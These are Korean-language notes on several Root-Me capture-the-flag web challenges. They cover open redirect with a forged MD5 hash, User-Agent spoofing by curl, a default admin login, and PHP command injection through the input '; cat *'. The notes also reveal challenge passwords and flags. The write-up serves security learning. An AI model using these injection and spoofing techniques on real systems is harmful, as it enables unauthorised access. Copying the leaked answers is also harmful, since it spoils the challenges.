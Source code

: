 # Server
## HTML - Source code
* HTML 파일에 주석처리 되어있음.

## HTTP - Open redirect
### Open Redirection Vulnerabilities
  * 애플리케이션이 사용자 입력을 받아 리다이렉션하기 위해 사용할 때 사용자 브라우저에게 요청한 것과는
    다른 URL을 방문하게 지시하는 취약점.
  * => 보통 스푸핑된 XSS 로 연계하기 위해 스푸핑된 웹사이트로 방문을 유도함. (피싱)
### 리다이렉션 취약점 발견과 악용
  * HTTP 리다이렉트는 리다이렉트의 대상을 지정하는 3xx 상태 코드와 Location 헤더 메시지를 사용한다.
  * 일정 시간이 지난 후에 HTTP 리프레시 헤더는 임의의 URL로 페이지를 다시 로드하는 데 사용할 수 있다.
    그 시간 간격을 인터벌이라고 하는데, 임의의 URL로 즉시 리다이렉트시키기 위해 그 값이 0이 될 수도 있다.
  * HTTP 헤더에 표기할 수 있는 내용을 HTML <meta> 태그를 통해 정의할 수 있으므로 이런 meta 태그를 이용해
    리다이렉션이 가능하다.
  * 임의의 URL로 브라우저를 리다이렉트하기 위해 자바스크립트의 다양한 API를 사용할 수 있다.
### Solution
```html
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```
* url 매개변수에 주소와 그 주소를 인코딩한 값을 넣어서 검증 후 리다이렉션 시킨다.
* https://emn178.github.io/online-tools/md5.html 확인해보니 md5이다.
* 어디로 리다이렉션 시켜야 문제가 해결될까 고민을 하다가 일단 아무곳이나 시도해보았다.
* ?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f 
* 그러면 짧게나마 password가 보일 것이다.

## HTTP-User-agent
* (프록시 툴이 없어서 하는 똥꼬쑈!) **군머**
* chrome debugger tools 에서 network 창 - copy - copy cURL or copy fetch 로 시도해보자.
* fetch는 몰랐는데 Promise 객체를 반환해주는듯?
```bash
curl 'http://challenge01.root-me.org/web-serveur/ch2/' 
-H 'Connection: keep-alive' 
-H 'Cache-Control: max-age=0' 
-H 'Upgrade-Insecure-Requests: 1' 
-H 'User-agent: admin' 
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3' 
-H 'Accept-Encoding: gzip, deflate' 
-H 'Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7' --compressed --insecure<html><body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe><h3>Welcome master!<br/>Password: rr$Li9%L34qd1AAe27</h3></body></html>
```

## Weak password
* Try as 'admin', 'admin'

## PHP-Command injection
* attack vector : ; cat *
```php
<!--?php 
$flag = "S3rv1ceP1n9Sup3rS3cure";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?-->
```
